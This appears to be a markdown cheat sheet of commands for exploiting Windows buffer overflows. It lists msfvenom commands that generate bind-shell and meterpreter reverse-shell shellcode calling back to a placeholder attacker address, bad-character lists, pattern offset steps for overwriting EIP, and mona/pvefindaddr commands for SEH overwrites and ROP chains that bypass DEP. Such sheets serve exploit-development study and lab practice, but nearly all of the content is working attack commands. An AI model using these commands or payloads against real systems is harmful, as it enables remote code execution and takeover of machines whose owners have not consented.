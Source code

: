 ### Win Buffer Overflow Exploit Commands
{% highlight bash %}
msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c

COMMONLY USED BAD CHARACTERS:
\x00\x0a\x0d\x20                              For http request
\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with (0\n\r_)

# Useful Commands:
pattern create
pattern offset (EIP Address)
pattern offset (ESP Address)
add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )
 
!pvefindaddr pattern_create 5000
!pvefindaddr suggest
!pvefindaddr modules
!pvefindaddr nosafeseh
 
!mona config -set workingfolder C:\Mona\%p
!mona config -get workingfolder
!mona mod
!mona bytearray -b "\x00\x0a"
!mona pc 5000
!mona po EIP
!mona suggest
{% endhighlight %}

### SEH - Structured Exception Handling
{% highlight bash %}
# https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH
!mona suggest
!mona nosafeseh
nseh="\xeb\x06\x90\x90" (next seh chain)
iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)
{% endhighlight %}

### ROP (DEP)
{% highlight bash %}
# https://en.wikipedia.org/wiki/Return-oriented_programming
# https://en.wikipedia.org/wiki/Data_Execution_Prevention
!mona modules
!mona ropfunc -m *.dll -cpb "\x00\x09\x0a"
!mona rop -m *.dll -cpb "\x00\x09\x0a" (auto suggest)
{% endhighlight %}
